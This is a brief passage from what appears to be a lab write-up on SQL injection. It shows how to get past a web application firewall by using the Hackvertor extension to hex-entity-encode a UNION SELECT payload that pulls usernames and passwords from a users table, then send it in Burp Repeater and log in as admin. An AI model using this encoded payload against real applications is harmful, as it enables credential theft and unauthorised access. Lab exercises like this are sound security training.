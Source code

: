 Step 2: Bypass the WAF 

[Hackvertor extension](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

Encode > dec_entities/hex_entities

`<@hex_entities> 1 union select username || '~' || password FROM users </@hex_entities>>`

Copy its output, and sned in tab repeater:

![image-20250522170438253](./image/image-20250522170438253.png)

Log in as admin:
